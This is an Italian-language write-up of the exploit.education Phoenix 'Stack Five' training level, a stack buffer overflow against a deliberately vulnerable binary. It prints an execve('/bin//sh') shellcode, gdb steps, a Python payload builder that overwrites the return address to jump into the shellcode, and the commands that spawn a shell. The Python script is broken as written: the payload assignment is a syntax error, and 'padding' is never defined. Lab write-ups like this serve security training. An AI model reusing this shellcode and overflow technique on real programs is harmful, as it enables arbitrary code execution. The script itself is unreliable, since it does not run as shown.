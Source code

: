 # [Stack Five](https://exploit.education/phoenix/stack-five/)

_Even harder...!_

Usiamo `gdb` per ispezionare l'eseguibile bersaglio, creando un ambiente di esecuzione costante:
```
$ gdb
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) unset env _
```

Impostiamo ancora un breakpoint in `start_level` e avanziamo fino alla chiamata di `gets`:
```
(gdb) break start_level
(gdb) run
(gdb) disassemble start_level
(gdb) step
...
```

Annotiamo i valori dei registri `rbp` e `rsp`:
```
(gdb) x $rbp
0x7fffffffe690
(gdb) x $rsp
0x7fffffffe610
```

Troviamo uno shellcode che effettui `execve("/bin//sh")` (doppia barra in modo che sia allineato a 8 bytes, allineando automaticamente lo stack a 16-bytes):

```
1\xf6VH\xbb/bin//shST_\xf7\xee\xb0;\x0f\x05
```

Aiutandoci con `python`, costruiamo il payload:
```python
import struct

rbp = 0x7fffffffe690
rsp = 0x7fffffffe610
shellcode = b"1\xf6VH\xbb/bin//shST_\xf7\xee\xb0;\x0f\x05"

total_length = rbp - rsp
padding_length = total_length - len(shellcode)

payload =
	# Mettiamo lo shellcode per primo, in modo che non venga sovrascritto dallo stack
	shellcode +
	# Mettiamo il padding...
	padding +
	# Facciamo in modo che l'rbp non cambi dopo il ritorno della funzione
	struct.pack("@Q", rbp) +  # @ per l'endianness nativa, Q per indirizzi 64 bit
	# Facciamo in modo che l'rip cambi a quello dell'inizio dello shellcode dopo il ritorno della funzione
	struct.pack("@Q", rsp)  # Lo shellcode si trova alla cima dello stack!

with open("file", "wb") as file:
	file.write(payload)
```

Proviamo a eseguire in `gdb`:
```
(gdb) run < file
...
process 5984 is executing new program: /bin/dash
```

Funziona!

Ricreiamolo in una shell normale.

Prepariamo l'ambiente:
```
$ sh
$ unset _
```

Avviamo il payload:
```
$ cat file | /opt/phoenix/amd64/stack-five
```

Così ***non va***, perchè standard input è chiuso e la shell si chiude subito.  
Se invece vogliamo mantenere lo standard input aperto, facciamo:
```sh
$ cat file - | /opt/phoenix/amd64/stack-five
```

E l'exploit funziona!